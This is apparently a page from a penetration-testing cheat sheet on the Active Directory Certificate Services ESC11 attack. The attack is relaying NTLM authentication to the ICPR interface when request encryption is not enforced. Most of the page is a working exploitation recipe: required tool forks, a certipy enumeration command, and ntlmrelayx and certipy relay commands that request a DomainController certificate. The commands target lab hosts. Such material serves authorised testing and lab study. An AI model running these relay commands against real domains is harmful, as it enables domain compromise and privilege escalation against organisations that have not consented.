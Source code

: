 # Active Directory - Certificate ESC11

## ESC11 - Relaying NTLM to ICPR

> Encryption is not enforced for ICPR requests and Request Disposition is set to Issue.

**Requirements**:

* [sploutchy/Certipy](https://github.com/sploutchy/Certipy) - Certipy fork
* [sploutchy/impacket](https://github.com/sploutchy/impacket) - Impacket fork

**Exploitation**:

1. Look for `Enforce Encryption for Requests: Disabled` in `certipy find -u user@dc1.lab.local -p 'REDACTED' -dc-ip 10.10.10.10 -stdout` output
2. Setup a relay using Impacket ntlmrelay and trigger a connection to it.

    ```ps1
    ntlmrelayx.py -t rpc://10.10.10.10 -rpc-mode ICPR -icpr-ca-name lab-DC-CA -smb2support
    certipy relay -target rpc://dc.domain.local -ca 'DOMAIN-CA' -template DomainController
    ```

## References

* [GOAD - part 14 - ADCS 5/7/9/10/11/13/14/15 - Mayfly - March 10, 2025](https://mayfly277.github.io/posts/ADCS-part14/)
* [Relaying to AD Certificate Services over RPC - SYLVAIN HEINIGER - November 16, 2022](https://blog.compass-security.com/2022/11/relaying-to-ad-certificate-services-over-rpc/)
